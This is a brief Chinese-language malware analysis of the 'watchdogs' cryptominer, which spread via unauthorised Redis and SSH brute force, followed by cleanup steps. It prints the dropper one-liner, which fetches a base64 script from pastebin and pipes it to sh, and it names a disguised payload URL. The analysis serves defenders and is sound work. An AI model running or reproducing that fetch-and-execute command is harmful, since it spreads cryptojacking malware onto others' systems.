 # watchdogs
2019.2.22 通过redis未授权、SSH爆破等途径入侵传播

### pastebin.com/raw/sByq0rym
开始执行的脚本，内容为:
```
(curl -fsSL https://pastebin.com/raw/tqJjUD9d||wget -q -O- https://pastebin.com/raw/tqJjUD9d)|base64 -d|sh
```

### tqJjUD9d.sh
首先执行的恶意脚本，写入定时任务及结束一些同行进程，下载了```http://thyrsi.com/t6/672/1550667479x1822611209.jpg```,
作者还在最后加了声明。。。
```
#1.If you crack my program, please don't reveal too much code online.Many hacker boys have copied my kworkerds code,more systems are being attacked.(Especially libioset)
#2.I used to want a secure network,social change of humanity,but I really don't like being bad hacker.
#3.All data is safe,only mining
#
```

### watchdogs
恶意挖矿程序本体


### 解决办法
```
1、删除恶意动态链接库 /usr/local/lib/libioset.so；
2、排查清理 /etc/ld.so.preload 中是否加载1中的恶意动态链接库；
3、清理 crontab 异常项，删除恶意任务(无法修改则先执行5-a)；
4、kill 挖矿进程；
5、排查清理可能残留的恶意文件；
a.chattr -i /usr/sbin/watchdogs /etc/init.d/watchdogs /var/spool/cron/root /etc/cron.d/root
b. chkconfig watchdogs off
c. rm -f /usr/sbin/watchdogs /etc/init.d/watchdogs
7、相关系统命令可能被病毒删除，可通过包管理器重新安装或者其他机器拷贝恢复；
8、 由于文件只读且相关命令被 hook，需要安装 busybox 通过 busybox rm 命令删除；
9、部分操作需要重启机器生效。
```

### 细节参考
https://mp.weixin.qq.com/s/dwY--BLzcyeXqPUZlhb__Q

